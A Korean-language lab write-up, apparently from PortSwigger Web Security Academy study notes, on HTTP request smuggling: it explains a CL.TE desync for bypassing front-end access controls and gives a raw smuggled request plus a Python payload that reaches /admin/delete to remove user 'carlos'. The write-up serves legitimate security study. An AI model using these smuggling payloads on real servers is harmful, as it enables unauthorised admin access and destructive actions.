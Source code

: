 ## Exploiting HTTP request smuggling vulnerabilities

위에서는 개념과 간단한 공격에 대해서 공부했으니 이번에는 실제 여러 문제를 풀어보도록 하겠습니다. 

### 😎 Using HTTP request smuggling to bypass front-end security controls

어떤 어플리케이션들은 Front-end 서버에서 사용자의 요청이 악의적인 요청인지  검사하게 합니다. 요청이 검사를 통과하면 그 요청을 Back-end 서버로 포워드 해줍니다. 그럼 Back-end에서는 검사를 통과한 요청으로 인식하고, 요청을 처리합니다.

접근 통제를 구현한 어플리케이션에서 권한이 없는 사용자는 `/home` 에는 접근할 수 있지만 `/admin`에는 접근할 수 없다고 가정해봅시다. 이런 경우 **HTTP request smuggling** 공격을 사용하면 권한이 없는 사용자도 `/admin` 경로에 접근할 수 있습니다 :

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

이 경우는 **CL.TE** 취약점이 발생한 경우입니다. Front-end에서는 `Content-Length` 헤더를 보고 요청을 모두 Back-end에게 포워드 해주고, Back-end에서는 `Transfer-Encoding` 헤더를 보고 `0\r\n\r\n`까지 처리합니다. 남은 부분은 처리되지 않은 상태로 남아있고, 다음 요청이 들어오면 그 요청 앞에 붙어서 처리됩니다.

**Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability**

**LAB Description :**

Front-end, Back-end 서버로 이루어져있고 Front-end 서버는 chunked encoding을 지원하지 않습니다. `/admin`에 어드민 패널이 있고 Front-end 서버는 어드민이 아닌 사용자의 요청을 막습니다.

이 문제를 풀려면 어드민 패널에 접근하는 요청을 smuggle 해서 `carlos` 사용자를 삭제하면 됩니다.

**PAYLOAD :**

``` python
second_request  = b'GET /admin/delete?username=carlos HTTP/1.1\r\n'
second_request += b'Host: localhost\r\n'
second_request += b'Content-Type: application/x-www-form-urlencoded\r\n'
second_request += b'Content-Length: 10\r\n'
second_request += b'\r\n'
second_request += b'x='

first_request  = b'POST / HTTP/1.1\r\n'
first_request += b'Host: '+HOST.encode()+b'\r\n'
first_request += b'Content-Length: '+str(len(second_request)+5).encode()+b'\r\n'
first_request += b'Content-Type: application/x-www-form-urlencoded\r\n'
first_request += b'Transfer-Encoding: chunked\r\n'
first_request += b'\r\n'
first_request += b'0\r\n\r\n'

smuggle_request = first_request + second_request
```
